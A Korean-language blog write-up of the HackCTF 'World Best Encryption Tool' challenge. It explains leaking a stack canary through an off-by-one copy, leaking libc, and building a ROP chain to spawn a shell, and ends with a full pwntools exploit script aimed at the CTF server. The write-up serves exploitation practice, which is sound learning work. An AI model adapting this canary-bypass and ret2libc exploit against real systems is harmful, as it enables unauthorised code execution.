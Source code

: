 ```yaml
---
layout: post
title:  "HacCTF World Best Encryption Tool write-up"
date:   2020-03-16 19:45:55
image:  hackctf_encryption.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


# [HackCTF] World Best Encryption Tool

Date: Feb 03, 2020
Tags: report

### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled.png)

이번 문제는 카나리가 추가로 설정되어있다.



**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%201.png)

문자열을 입력하면, 해당 문자열이 암호화되어 출력된다. 그다음 다시 입력을 할 것인지 묻게 되는데 여기서 Yes를 입력하면 재입력이 가능하며 No를 누르면 다음과 같이 프로그램이 종료된다



**3) 코드 흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%202.png)

do - while 문이 보인다. 처음 src에 입력을 하고 해당 문자열을 0x31바이트만큼 xor 연산을 하게 된다. 그다음 dest에 0x39 사이즈 만큼 복사를 하고 해당 dest에 들어가 내용을 출력한다.

s1에 들어간 값이 Yes인지 No인지 strcmp() 를 이용하여 확인을 한다. Yes 입력시 다시 반복문을 실행하게 된다.





### 2. 접근방법

---

14라인의 scanf를 이용하여 BOF를 발생시킬수 있다. 하지만 현재 카나리가 걸려있다. 따라서 단순히 BOF를 일으키면 카나리 값이 변조되어 프로그램이 강제 종료가된다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%203.png)

위와 같이 stack smashing detected 되었다면서 종료가 된다.

이 카나리값만 알게 된다면 rbp-0x8 위치에 카나리를 넣고 ROP를 진행하면 될것으로 보인다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%204.png)

scanf로 src에 처음에 입력을 받고, src에 있는 데이터를 dest로 최대 0x39 바이트 만큼 복사가 이루어진다. 노란 영역이 복사될수 있는 최대영역인데, 카나라의 하위 한바이트를 변조 가능하다.

카나리는 하위 한바이트가 널값이기 때문에 만약 src에 들어있는 데이터가 0x38까지라면 strncpy를 통해 0x38바이트만 복사된다. 따라서 printf이 호출되면 널값이 존재하는 카나리 직전까지만 출력이 된다.

따라서 src에 0x39 만큼 입력을하면, dest에 0x39사이즈 만큼 복사가 이루어지고, 카나리의 하위 한바이트를 변경가능하다. 이를 통해  printf가 진행되면 카나리의 값을 leak할 수 있다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%205.png)

0x38만큼 A를 입력하고 B를 하나 입력한 결과이다. 이렇게되면 printf되어 출력되는 데이터들을 받게 되는데 빨간동그라미가 한바이트 덮은 B이고 나머지가 카나리 값이다. 이를 이용하여 이제 ROP를 진행하면 된다. 여기서 카나리 값의 하위 1바이트를 0으로 만들어서 이용하면 끝이다.



- 시나리오
    1. **libc 주소 leak하기**

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%206.png)

        처음에는 printf_got를 인자로 printf_plt를 호출하여 printf함수의 주소를 얻으려고 했지만, 이상하게 동작을 하지 않았다. 따라서 puts_got, Puts_plt를 이용하였는데도 이상하게 안돼서 scanf_got로 put_plt를 호출하니 이제서야 됬다.

        !![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%207.png)

    2. **libc database로 libc버전 확인해서 오프셋 조지기**

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%208.png)

        이제 ROP를 조지면 끝이다.





### 3. 풀이

---

& 연산으로 카나리 하위 1바이트를 다시 0으로 만들고 진행하였다.

처음 src에 값을 넣은뒤 strncpy가 진행되므로 카나리의 하위 1바이트의 널값이 변경되면 안됀다.

이를 고려하여 작성한 최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz",3027)
    #p=process("./World_best_encryption_tool")
    e=ELF("./World_best_encryption_tool")
    #gdb.attach(p)
    
    p.recvuntil("Your text)\n")
    
    payload="A"*0x38+"B"
    
    p.sendline(payload)
    p.recv(0x48)
    canary=p.recv(8)
    canary=u64(canary)
    
    log.info("canary::")
    log.info(hex(canary))
    canary=canary&0xFFFFFFFFFFFFFF00
    log.info(hex(canary))
    
    pr=0x4008e3
    
    p.recvuntil("(Yes/No)\n")
    p.sendline("Yes")
    p.recvuntil("Your text)\n")
    
    payload2="A"*56
    payload2+="\x00"
    payload2+="B"*63
    payload2+=p64(canary)
    payload2+="C"*8
    payload2+=p64(pr)
    payload2+=p64(0x601048)
    payload2+=p64(0x4005e0)
    payload2+=p64(0x400727)
    pause()
    p.sendline(payload2)
    
    p.recvuntil("(Yes/No)\n")
    p.sendline("No")
    
    tmp=p.recvline()
    log.info(tmp)
    scanf_addr=u64(tmp[0:6]+"\x00\x00")
    log.info("scanf:"+hex(scanf_addr))
    
    libc_base=scanf_addr-0x06b4d0
    binsh=libc_base+0x18cd57
    system_addr=libc_base+0x045390	
    p.recvuntil("Your text)\n")
    
    payload3="A"*56
    payload3+="\x00"
    payload3+="B"*63
    payload3+=p64(canary)
    payload3+="C"*8
    payload3+=p64(pr)
    payload3+=p64(binsh)
    payload3+=p64(system_addr)
    pause()
    p.sendline(payload3)
    
    p.recvuntil("(Yes/No)\n")
    p.sendline("No")
    
    
    p.interactive()





### 4. 몰랐던 개념

---

카나리의 하위 한바이트가 널값인지는 몰랐다.  아래 사이트에서 카나리 관련 개념을 좀 알아볼 필요가 있을 듯 싶다.

[03.Canaries](https://www.lazenca.net/display/TEC/03.Canaries)

또한 이번 문제는 서버와 통신하는 타이밍 때문에 애좀 썻다.